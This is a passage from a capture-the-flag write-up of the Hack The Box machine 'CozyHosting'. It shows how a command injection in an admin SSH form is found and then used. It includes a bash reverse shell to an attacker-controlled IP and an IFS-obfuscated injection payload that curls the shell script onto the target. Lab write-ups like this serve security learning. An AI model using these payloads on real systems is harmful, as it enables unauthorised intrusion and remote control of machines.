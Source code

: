 Now refresh the page.

![[CozyHosting/assets/Untitled 12.png|Untitled 12.png]]

And we have successfully got access to the admin page.

In the admin page, you can see a form, which on submit will try to establish a connection via ssh using the given hostname and username.

![[CozyHosting/assets/Untitled 13.png|Untitled 13.png]]

First I tried some random host name and captured the request with burpsuite and sent that to the repeater tab. While I was testing with random credentials, when supplying an empty username, resulted in the following error.

![[CozyHosting/assets/Untitled 14.png|Untitled 14.png]]

From this error we can device that this API is vulnerable to command injection. So I tried some basic command to test it.

![[CozyHosting/assets/Untitled 15.png|Untitled 15.png]]

From the response, we can see the response of the id command and now its proved that the application is vulnerable to command injection. Now its time to use this vulnerability to gain access to the machine.

  

We know that, we can execute commands on the target machine with this vulnerability, so we can download a reverse shell on the target machine by sending command. For that first we need a reverse shell on our local machine. Create a file named `revshell.sh` and paste following code in that file. Don’t forget to replace the IP address.

```
#! /bin/bash

bash -i >& /dev/tcp/<Your_HTB_tunnel_IP>/9001 0>&1
```

Now start a simple HTTP server with python using the command `python3 -m http.server`.

![[CozyHosting/assets/Untitled 16.png|Untitled 16.png]]

Now its time to download this reverse shell on the target machine. You can use this below command to download the reverse shell on the target machine by supplying this as the value to the username field.

```
$(IFS=_;command='curl_http://<Your_HTB_Tunnel_IP>:8000/revshell.sh_--output_/tmp/revshell.sh';$command;)
```

> [!important]  
> I have used a variable IFS in the above command. To know about it, check this out: https://www.youtube.com/watch?v=so8IRuhWjEM  

![[CozyHosting/assets/Untitled 17.png|Untitled 17.png]]
